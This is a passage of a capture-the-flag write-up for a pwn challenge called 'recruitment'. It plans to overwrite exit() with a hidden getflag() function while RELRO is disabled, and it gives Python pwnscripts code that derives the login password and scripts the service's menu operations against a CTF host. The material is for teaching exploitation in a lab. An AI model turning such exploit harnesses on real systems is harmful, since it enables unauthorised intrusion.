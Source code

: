 There's also a hidden `getflag()` function at `0x8049F29`. Since RELRO is still disabled here, our goal will be replacing `exit()` with `getflag()`, much like the previous challenge.

To handle everything in the menu programmatically, we'll make a class:
```python
from pwnscripts import *
context.binary = 'recruitment'
context.binary.symbols['getflag'] = 0x8049F29
context.binary.symbols['Members'] = 0x804D0A0
# MANUALLY DECOMPILED
HEXES = [0x11343447d5b9e1e6cdae92faaea8880db1fab16b1568da13c3715f2aeba9d94f,
        0x363b422c8fa9864675a4b480c5bfa965ad36c1f44bf68c4da7f4003b45b78e2e,
        0x2b2a577c7b75bb0bbd833de35748531035f94ee709a7833d4befc34f0e57bd86]
pw = pack(HEXES[2]-HEXES[0]+HEXES[1], 'all')

def member(ID): # for later
    STRUCT_SIZE = 44    # decompiled
    ID -= 1 # indexing in the true Members array starts from 0 rather than 1
    class Member(int):
        def __getattr__(self, name):
            offsets = {'size': 0, 'name': 4, 'details': 36, 'ID': 40}
            if name in offsets: return int(self)+offsets[name]
    return Member(context.binary.symbols['Members']+ID*STRUCT_SIZE)

class Menu(pwnlib.tubes.remote.remote):
    def login(r):
        r.sendlineafter('system: ', pw[::-1])
        r.member_count = 0
    def opt(r, v):
        r.sendlineafter('choice: \n', str(v))
    def add(r, name, notelen: int, note):
        assert r.member_count < 199
        r.member_count += 1
        r.opt(1)
        r.sendafter('name of member:\n', name)
        r.sendafter('length of note:\n', str(notelen))
        r.sendafter('details in the note:\n', note)
        return r.recvline()
    def list(r, ID: int):
        r.opt(2)
        r.sendafter('ID to display:\n', str(ID))
        return dict((k,r.recvline().split(b': ')[-1]) for k in (b"ID", b"Name", b"Notes"))
    def edit(r, ID: int, notelen: int, note):
        r.opt(3)
        r.sendafter('edit the notes:', str(ID))
        r.sendafter('length of note:\n', str(notelen))
        r.sendafter('in the note:\n', note)
    def delete(r, ID: int):
        r.opt(4)
        r.sendlineafter('ID to delete:\n', str(ID))
    def quit(r):
        r.opt(5)
    def magic(r):
        r.opt(9)
r = Menu('yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg', 30131)
r.login()
```
We'll move on.

